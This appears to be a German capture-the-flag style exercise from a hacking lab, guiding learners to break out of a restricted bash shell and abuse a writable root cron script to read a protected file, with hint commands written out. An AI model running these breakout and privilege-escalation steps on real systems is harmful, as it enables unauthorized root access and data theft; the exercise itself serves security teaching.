

# Aufgabe 08: Got Wurzel
## Einleitung
Bei dieser Übung schlüpfst Du in die Rolle des Hackers und Du sollst auf dem Server auf den Inhalt einer geheimen Datei zugreifen. 

`/goldnugget/goldnugget.gn`

Du bist aber auf dem Server in einem "Gefängnis" eingesperrt und musst dort zuerst ausbrechen. 


## Gefängnis == Restricted Shell
Bei dieser Aufgabe kannst Du auf einen Linux Server zugreifen. 

* https://got-wurzel.idocker.hacking-lab.com/ 
* Username = restricted
* Password = restricted 
  
Dort angekommen, ist Deine Shell in einem Gefängnis gefangen und kann nicht auf das ganze Betriebssystem und Files zugreifen. 


Versuche aus dem Gefängnis auszubrechen `rbash breakout` und hol Dir den Inhalt der geheimen Datei `/goldnugget/goldnugget.gn`


## Screenshot nach dem Login



## Die wichtigsten Linux Kommandos für diese Aufgabe
```bash
cat             (anschauen von einem file)
ls              (listing von files)
ls -al          (listing von files mit auflistung berechtigungen)
ls -al bin      (listing des ordner "bin" mit berechtigungen)
echo "blabla"   (ausgabe von "blabla")
tee             (umlenkung der ausgabe auf bildschirm und in file)
|               (pipe = zwei befehle miteinander kombinieren)

HINT1 rbash break-out: 
tee ./bin/dig
#!/bin/bash
PATH=/bin:/usr/bin:/usr/local/bin
cat /bin/bash > /home/restricted/dig
End the input with CTRL-C.

HINT2 analyse crontab
cat /etc/crontab/root

HINT3 auslesen geheime Datei
echo "cat /goldnugget/* >> /tmp/gotit" >> mtr-check
warten 1-2 Minuten
cat /tmp/gotit
```

## Erklärungen zum Hack
Der Hack besteht aus 3 Schritten

1. Ausbruch aus dem Gefängnis (rbash breakout)
2. Verstehen, wie man root Rechte erlangt (crontab)
3. Auslesen geheime Datei über crontab, den man beschreiben kann

### rbash breakout
* Schaue Dir die Berechtigungen an (insbesondere von .bashrc)
* Was bewirkt die .bashrc? Mach Dich schlau bei Google
* Lerne den Befehl "tee" kennen (Nachlesen bei Google)
* Lerne 
* Kombiniere diese Tipps und verlass das Gefängnis indem Du den Befehl "echo" mit der "|" und einer Datei kombinierst

### crontab kennen lernen
* Was macht unter Linux der `crontab`
* Was findest Du in der Datei `/etc/crontab/root`
* Was bedeutet das?
* Welche Berechtigungen haben die Programme die in `/etc/crontab/root` aufgelistet sind? 
* Schau Dir die Berechtigungen von `/usr/bin/mtr-check` an
* Diese wird jede Minute ausgeführt

### wissen kombinieren, geheime nachricht lesen
* Datei `/usr/bin/mtr-check` beschreiben
* warten 1-2 minuten
* Zugriff auf goldnugget möglich


